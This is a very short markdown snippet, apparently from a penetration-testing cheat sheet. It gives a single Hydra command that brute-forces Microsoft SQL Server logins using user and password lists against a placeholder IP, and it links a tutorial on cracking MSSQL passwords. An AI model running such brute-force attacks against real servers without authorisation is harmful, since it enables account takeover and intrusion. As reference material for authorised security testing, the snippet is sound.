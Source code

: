# Hydra

`$ hydra -L users.lst –P passwords.lst <IP> mssql`

---
## References

- [Hacking Articles: Password Cracking MSSQL](https://www.hackingarticles.in/password-crackingms-sql/)